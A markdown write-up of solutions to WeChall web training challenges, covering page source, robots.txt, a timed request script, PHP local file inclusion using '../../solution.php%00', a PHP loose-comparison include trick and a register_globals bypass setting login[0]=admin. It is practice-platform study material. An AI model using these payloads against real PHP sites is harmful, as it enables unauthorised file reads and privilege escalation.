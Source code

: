- [Tricks](#tricks)
- [WeChall](#wechall)
    - [Get Sourced](#get-sourced)
        - [Challenge](#challenge)
        - [Solution](#solution)
    - [Robots.txt](#robotstxt)
        - [Challenge](#challenge)
        - [Solution](#solution)
    - [Requests](#requests)
        - [Challenge](#challenge)
        - [Solution](#solution)
    - [PHP LFI](#php-lfi)
        - [Challenge](#challenge)
        - [Solution](#solution)
    - [PHP 0817](#php-0817)
        - [Challenge](#challenge)
        - [Solution](#solution)
    - [PHP Register Globals](#php-register-globals)
        - [Challenge](#challenge)
        - [Solution](#solution)
- [Useful Links](#useful-links)

# Tricks
* View the source of the page.
* Check the robots.txt file.
* If Register Globals is on for the website, use parameters to pass variables.
* `netstat -rn` can give us the local IP address.

# WeChall
## Get Sourced
### Challenge
http://www.wechall.net/challenge/training/get_sourced/index.php

### Solution
View the source of the page, at the end, there is `html_sourcecode`

## Robots.txt
### Challenge
http://www.wechall.net/challenge/training/www/robots/index.php for looking at robots.txt

### Solution
Goes to http://www.wechall.net/robots.txt
```
User-agent: *
Disallow: /challenge/training/www/robots/T0PS3CR3T

User-agent: Yandex
Disallow: *
```
Next, visits http://www.wechall.net/challenge/training/www/robots/T0PS3CR3T and challenge will be solved.

## Requests
### Challenge
http://www.wechall.net/challenge/training/programming1/index.php\
Submit the message got in http://www.wechall.net/challenge/training/programming1/index.php?action=request to http://www.wechall.net/challenge/training/programming1/index.php?answer=the_message with a time limit of 1.337 seconds.

### Solution
Uses the script.
```
[root@eae8fdf9766f Web]# ./get_post_requests.py 
Response message is vo2S0kiPMx
```

## PHP LFI
### Challenge
http://www.wechall.net/challenge/training/php/lfi/up/index.php
```
$filename = 'pages/'.(isset($_GET["file"])?$_GET["file"]:"welcome").'.html';

include $filename;
```
There is a lot of important stuff in ../solution.php, so please include and execute this file for us.

### Solution
Looking at source code, we can see that it uses `Common::substrUntil($filename, "\\0");`.\
So we use `%00` to end the file string.\
Go to link `http://www.wechall.net/challenge/training/php/lfi/up/index.php?file=../../solution.php%00`

## PHP 0817
### Challenge
http://www.wechall.net/challenge/php0817/index.php
```
<?php
    if (isset($_GET['which'])) {
        $which = $_GET['which'];
        switch ($which) {
            case 0:
            case 1:
            case 2:
                require_once $which.'.php';
                break;
            default:
                echo GWF_HTML::error('PHP-0817', 'Hacker NoNoNo!', false);
                break;
        }
    }
?>
```
Your mission is to include solution.php.

### Solution
Switch/Case in PHP uses loose comparison, therefore, String like "solution" is evaluted to 0 and we will fall into case 0.\
More about PHP types comparisons: `http://php.net/manual/en/types.comparisons.php`\
Go to link `http://www.wechall.net/challenge/php0817/index.php?which=solution`

## PHP Register Globals
### Challenge
http://www.wechall.net/challenge/training/php/globals/index.php

### Solution
Look at the source code provided in the question,
```
if (isset($login)) {
    echo GWF_HTML::message('Register Globals', $chall->lang('msg_welcome_back',
                                                              array(htmlspecialchars($login[0]),
                                                                    htmlspecialchars($login[1]))));
    if (strtolower($login[0]) === 'admin') {
        $chall->onChallengeSolved(GWF_Session::getUserID());
    }
}
```
We can pass in `login` and `login[0]` as parameter to the PHP file.
Go to link `http://www.wechall.net/challenge/training/php/globals/globals.php?login=1&login[0]=admin` and will solve the problem.

# Useful Links
* [Robots Exclusion Standard](https://en.wikipedia.org/wiki/Robots_exclusion_standard)
* [File Inclusion Vulnerability](https://en.wikipedia.org/wiki/File_inclusion_vulnerability#Local_File_Inclusion)
* [Register Globals](http://php.net/manual/en/security.globals.php)